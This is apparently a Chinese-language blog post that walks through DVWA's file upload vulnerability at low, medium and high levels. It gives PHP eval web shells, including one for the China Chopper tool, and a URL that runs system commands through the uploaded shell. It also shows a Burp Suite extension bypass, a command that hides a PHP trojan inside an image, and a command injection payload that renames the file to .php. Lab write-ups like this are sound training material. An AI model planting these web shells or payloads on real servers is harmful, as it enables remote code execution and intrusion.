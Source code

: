```yaml
---
layout: post
title: 2023-08-01-File-Upload
subtitle: 2023-08-01-File-Upload
date: 2023-08-01 23:00
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - DVWA
categories: 
permalink: 
excerpt: 文件上传漏洞 LOW MEDIUM HIGH
published: true
---
```

# 文件上传漏洞
### LOW

the.php

```php
<?php eval($_GET['bckdor'])?>
```

构造url：http://192.168.30.131/dvwa/hackable/uploads/the.php?bckdor=

```php
phpinfo();
system('ls');
```

**中国菜刀**

```php
<?php eval($_POST['bckdor'])?>
```
### MEDIUM

将the.php改为the.jpg

burpsuit抓取request，修改文件后缀
### HIGH

准备图片image.png和hack.php

```shell
#生成带有木马的图片
#image.png/b中“b”表示“二进制文件”，hack.php/a中“a"表示ASCII码文件
copy image.jpg/b+hack.php/a hack.jpg
```

利用Command Injection

```
127.0.0.1|mv ../../hackable/uploads/hack.jpg ../../hackable/uploads/hack.php
```